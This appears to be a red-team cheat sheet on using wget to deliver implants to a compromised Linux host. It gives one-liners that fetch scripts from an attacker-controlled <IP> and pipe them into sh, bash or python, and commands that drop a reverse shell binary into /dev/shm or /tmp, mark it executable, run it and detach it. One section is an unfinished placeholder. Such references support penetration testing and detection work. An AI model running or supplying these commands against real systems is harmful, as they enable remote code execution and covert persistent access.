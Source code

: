 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget --no-hsts -qO- http[s]://<IP>/implant.sh | sh

$ wget --no-hsts -qO- http[s]://<IP>/implant.sh | bash

$ wget --no-hsts -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download reverse shell binary and execute it.

```
$ wget --no-hsts -P /dev/shm http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown

$ wget --no-hsts -O /dev/shm/implant http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown
```

## 03 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget --no-hsts -O /tmp/implant http[s]://<IP>/implant; chmod +x /tmp/implant; /tmp/implant & disown
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```

---
## References

### Github

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### GTFOArgs

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)

### DMCXBlue

- [DMCXBlue: Attachments - Scripting Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-scripting-files)